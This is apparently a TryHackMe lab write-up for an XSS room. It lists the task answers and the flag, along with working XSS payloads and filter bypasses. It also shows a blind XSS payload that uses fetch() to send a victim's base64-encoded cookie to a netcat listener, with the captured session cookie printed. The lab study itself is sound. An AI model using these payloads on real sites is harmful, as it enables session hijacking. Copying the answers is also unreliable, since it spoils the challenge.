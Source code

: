 ```yaml
---
title: Cross-site Scripting
author: CYB3RM3
name: CYB3RM3 | Cross-site Scripting
date: 2021-10-12 21:02:31 +0100
categories: [TryHackMe, Web]
tags: [Web, XSS]
---
```


Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.

THM Room [https://tryhackme.com/room/xss](https://tryhackme.com/room/xss)


## TASK 1 : Room Brief 
### What does XSS stand for?
Answer : Cross-site Scripting

## TASK 2 : XSS Payloads 
### Which document property could contain the user's session token?
Answer : document.cookie

### Which JavaScript method is often used as a Proof Of Concept?
Answer : alert

## TASK 3 : Reflected XSS
### Where in an URL is a good place to test for reflected XSS?
Answer : Parameters

## TASK 4 : Stored XSS  
### How are stored XSS payloads usually stored on a website?
Answer : database

## TASK 5 : DOM Based XSS 
### What unsafe JavaScript method is good to look for in source code?
Answer : eval()

## TASK 6 : Blind XSS
### What tool can you use to test for Blind XSS?
Answer : xsshunter

### What type of XSS is very similar to Blind XSS?
Answer : Stored XSS

## TASK 7 : Perfecting your payload
### What is the flag you received from level six?
LEVEL 1 : You just need to alert() the keyword THM :

```console
<script>alert('THM');</script>
```
{: .nolineno }

LEVEL 2 : You need to escape :

```html
<h2>Hello, <input value="johny"></h2>
```
{: .nolineno }

using :

```console
"><script>alert('THM');</script>
```
{: .nolineno }

LEVEL 3 : You need to escape :

```html
<h2>Hello, <textarea>meee</textarea></h2>
```
{: .nolineno }

using :

```console
</textarea><script>alert('THM');</script>
```
{: .nolineno }

LEVEL 4 : You need to escape a call from a script document.getElementsByClassName('name')[0].innerHTML='hey you'; 

```console
';alert('THM');//
```
{: .nolineno }

LEVEL 5 : A filter is applied and remove keywords like "script"

```console
<sscriptcript>alert('THM');</sscriptcript>
```
{: .nolineno }

LEVEL 6 : You need to put script on image :

```html
<img src="/images/cat.jpg">
```
{: .nolineno }

```console
/images/cat.jpg" onload="alert('THM');
```
{: .nolineno }

Answer : THM{XSS_MASTER}

## TASK 8 : Practical Example (Blind XSS) 
### What is the value of the staff-session cookie?
Launch a listener on the KALI machine :

```console
nc -lnvp 9001
```
{: .nolineno }

Then create a new ticket with the payload :

```console
</textarea><script>fetch('http://10.10.127.52:9001?cookie=' + btoa(document.cookie) );</script>
```
{: .nolineno }

You'll get this in the listener :

```console
root@ip-10-10-127-52:~# nc -lnvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.232.24 39680 received!
GET /?cookie=c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1
Host: 10.10.127.52:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: http://172.17.0.1
Referer: http://172.17.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
{: .nolineno }

Decoding this base64 gives you the staff-session cookie :

```console
┌──(kaliuser㉿kali)-[~]
└─$ echo "c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==" | base64 -d
staff-session=4AB305E55955197693F01D6F8FD2D321
```
{: .nolineno }

Answer : 4AB305E55955197693F01D6F8FD2D321